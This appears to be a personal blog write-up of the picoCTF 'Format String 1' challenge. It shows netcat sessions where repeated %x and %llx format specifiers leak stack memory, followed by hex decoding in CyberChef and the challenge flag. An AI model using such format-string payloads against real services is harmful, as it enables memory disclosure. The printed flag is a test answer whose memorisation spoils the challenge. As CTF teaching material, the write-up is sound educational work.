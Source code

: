 ```yaml
---
layout: post
title:  "Format String 1"
subtitle: 2024-08-25
date:   2024-08-25
description: Easy format string vulnerability
tags: ["Binary Exploitation" "Format String" "Easy"]
category: [CTF, picoCTF]
---
```


# Challenge Info
description: `Patrick and Sponge Bob were really happy with those
orders you made for them, but now they're curious
about the secret menu. Find it, and along the way,
maybe you'll find something else of interest!`

Download the binary [here](https://artifacts.picoctf.net/c_mimas/82/format-string-1).

Download the source [here](https://artifacts.picoctf.net/c_mimas/82/format-string-1.c).

Connect with the challenge instance here:
`nc mimas.picoctf.net <port>`

author: Connor Chang

![format string 1](/assets/img/formatstring-1/formatstring1.png)

## Attempts

Upon connecting to the netcat listener, we're prompted: `Give me your order and I'll read it back to you:`

Because of the name of the challenge; "**Format String** 1", we already get a pretty big hint. Just from experience, I know that `%x` can be used in format string vulnerabilities to either dump or navigate memory stacks. Naturally, this is the route I took.

```
~ > nc mimas.picoctf.net 63183                               INT 18s
Give me your order and I'll read it back to you:
%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,
Here's your order: 402118,0,6377ea00,0,a64880,a347834,b4da5590,6356fe60,637944d0,1,b4da5660,0,0,6f636970,6d316e34,33317937,3431665f,64303935,7,637968d8,7,74307250,6c797453,9,637a7de9,63578098,637944d0,0,b4da5670,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,454d4100,6e656c6c,4c564c48,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
Bye!
```

After pasting this into [Cyberchef](https://gchq.github.io/CyberChef/) with "From Hex" selected, I started to notice what might be a flag.

![possible flag](/assets/img/formatstring-1/possibleflag.png)

## Solution

After inspecting the initial output, I decided to modify my format string to use `%llx` instead of `%x`. The `ll` modifier stands for "long long," which in C is a data type representing a 64-bit integer. By using `%llx`, I ensured that each stack read would capture a full 64-bit value, meaning 16 hexadecimal digits would be printed instead of just 8. This is important because the flag or other useful data might be stored in a location that requires reading all 16 bytes (instead of 8) to be fully captured.

After using this adjustment, with commas `,` to clearly separate each stack, I got a different result:


```
~ > nc mimas.picoctf.net 63183                            INT 1m 53s
Give me your order and I'll read it back to you:
%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,
Here's your order: 402118,0,7aaeacfeba00,0,1c1f880,a347834,7ffd67ec6cc0,7aaeacddce60,7aaead0014d0,1,7ffd67ec6d90,0,0,7b4654436f636970,355f31346d316e34,3478345f33317937,35365f673431665f,7d313464303935,7,7aaead0038d8,2300000007,206e693374307250,a336c797453,9,7aaead014de9,7aaeacde5098,7aaead0014d0,0,7ffd67ec6da0,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,
Bye!
```

I decided to put these hex values through Cyberchef again, and saw what's definitely an encoded flag:

![possible flag](/assets/img/formatstring-1/possibleflag2.png)

After removing the null values, I was left with this:

![jumbled flag](/assets/img/formatstring-1/jumbledflag.png)

From here, the challenge is mostly nonsensical decoding, and it gets really bad (there is a reason it's < 50% positive reviews). I went through it anyways, but I probably won't write how I decoded/solved it, it's not really "hacking" and serves no purpose for this challenge.

flag: `picoCTF{4n1m41_57y13_4x4_f14g_65590d41}`
